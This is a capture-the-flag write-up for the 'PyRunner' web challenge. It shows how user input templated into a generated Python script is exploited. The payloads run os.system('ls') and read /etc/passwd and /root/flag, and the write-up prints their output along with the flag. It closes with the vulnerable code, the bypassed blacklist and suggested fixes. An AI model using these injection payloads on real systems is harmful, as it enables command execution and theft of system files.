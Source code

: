 # PyRunner

### Description

Can you help us test our internal Python job runner prototype?

# Solution

## 1. Injection

Hmm Templating of the title, I wonder what I can inject in it

<!--![[Web/PyRunner/1.png]]-->
![1.png](1.png)

## 2. Inject Code - Read File

Lets try OS command injection

```
START");import os;os.system("ls");print("END
```

Oh some replacing is done. Especially on semicolons and `os`

Output

```python
  File "/app/scripts/388177.py", line 11
    print("Webserver: START") .system("ls")print("END")
                                           ^^^^^
SyntaxError: invalid syntax
```


Trying another payload

```
START" + open("/etc/passwd").read() + "END
```

Output - And with this I have achieved arbituary file read


```
Webserver: STARTroot:x:0:0:root:/root:/bin/ash
bin:x:1:1:bin:/bin:/sbin/nologin
daemon:x:2:2:daemon:/sbin:/sbin/nologin
adm:x:3:4:adm:/var/adm:/sbin/nologin
lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin
sync:x:5:0:sync:/sbin:/bin/sync
shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown
halt:x:7:0:halt:/sbin:/sbin/halt
mail:x:8:12:mail:/var/mail:/sbin/nologin
news:x:9:13:news:/usr/lib/news:/sbin/nologin
uucp:x:10:14:uucp:/var/spool/uucppublic:/sbin/nologin
operator:x:11:0:operator:/root:/sbin/nologin
man:x:13:15:man:/usr/man:/sbin/nologin
postmaster:x:14:12:postmaster:/var/mail:/sbin/nologin
cron:x:16:16:cron:/var/spool/cron:/sbin/nologin
ftp:x:21:21::/var/lib/ftp:/sbin/nologin
sshd:x:22:22:sshd:/dev/null:/sbin/nologin
at:x:25:25:at:/var/spool/cron/atjobs:/sbin/nologin
squid:x:31:31:Squid:/var/cache/squid:/sbin/nologin
xfs:x:33:33:X Font Server:/etc/X11/fs:/sbin/nologin
games:x:35:35:games:/usr/games:/sbin/nologin
cyrus:x:85:12::/usr/cyrus:/sbin/nologin
vpopmail:x:89:89::/var/vpopmail:/sbin/nologin
ntp:x:123:123:NTP:/var/empty:/sbin/nologin
smmsp:x:209:209:smmsp:/var/spool/mqueue:/sbin/nologin
guest:x:405:100:guest:/dev/null:/sbin/nologin
nobody:x:65534:65534:nobody:/:/sbin/nologin
www:x:1000:1000:1000:/home/www:/bin/sh
END
Hello!
```

## 3. Retrieving Flag

Lets check the Dockerfile again

```dockerfile
FROM python:3.10.8-alpine3.16

RUN adduser -D -u 1000 -g 1000 -s /bin/sh www

RUN apk add --update --no-cache gcc musl-dev

WORKDIR /app
COPY app /app

COPY flag /root/flag

COPY config/readflag.c /
RUN gcc -o /readflag /readflag.c && chmod 4755 /readflag && rm /readflag.c

RUN pip install -r requirements.txt

CMD ["python3", "app.py"]
```

Need to run the `/readflag` binary? Just kidding. Just read `/root/flag directly`

```python
START" + open("/root/flag").read() + "END
```

<!--![[Web/PyRunner/2.png]]-->
![](2.png)

<!--![[Web/PyRunner/3.png]]-->
![](3.png)


### 4. Where this wont work

**Injection**

I didn't really read the code while doing this challenge, but here's the vulnerable code

```python
@app.post('/run-template')
async def run_template(request: Request):
    data = await request.json()
    template = scripts[data['template']]
    with open(f'scripts/{template["file"]}', 'r') as file:
        contents = file.read()
        print(data)
        for argument in template['arguments']:
            contents = contents.replace(f'<{argument}>', textfilter(data['arguments'][argument]))
        filename = f'{random.randint(100000, 999999)}.py'
        with open(f'scripts/{filename}', 'w') as newfile:
            newfile.write(contents)
        output = subprocess.run(['python', f'scripts/{filename}'], capture_output=True, text=True)
        # check if output has error
        if output.stderr:
            return JSONResponse({'output': output.stderr})
        return JSONResponse({'output': output.stdout})  
```

Either way these lines are dangerous, as user input is templated into running code with filter.

```python
data = await request.json()
template = scripts[data['template']]
...
for argument in template['arguments']:
	contents = contents.replace(f'<{argument}>', textfilter(data['arguments'][argument]))
	filename = f'{random.randint(100000, 999999)}.py'
	with open(f'scripts/{filename}', 'w') as newfile:
		newfile.write(contents)
	output = subprocess.run(['python', f'scripts/{filename}'], capture_output=True, text=True)
```

But the filter is not good enough. It doesn't disallow the escape characters `"` which are arguably the most important. Either way a blacklist is not a good idea, as there may be new ways to bypass it, so this should be changed to a whitelist whenever possible.

```python
disallowed = ["import", ";", "\n", "eval", "exec", "os"]
...
def textfilter(text):
    for i in disallowed:
        if i in text:
            text = text.replace(i, "")
    return text
```

**File Read**

This wont work if the `/root/flag` text file has its permissions properly set to prevent read. This could be done by adding a `chmod` command to the Dockerfile

```
RUN chmod 700 /root/flag # Read, Run Execute by owner
```

The Docker container user should also have their permissions set properly (eg. setting something to not root, something I didn't see in the docker file). We could add something like this to the Dockerfile [\*](https://docs.docker.com/engine/reference/builder/#user)

```dockerfile
...
# Setup default user, when enter docker container  
USER www # ${UID}:${GID}
CMD ["python3", "app.py"]
```

However, in this case, the file read worked, so alls good

# Flag

`STF22{4ut0m4t3d_c0mm4nd_1nj3ct10n}`
 
Ooh nice I'm the top 5th solver

<!--![[score.png]]-->
![](score.png)
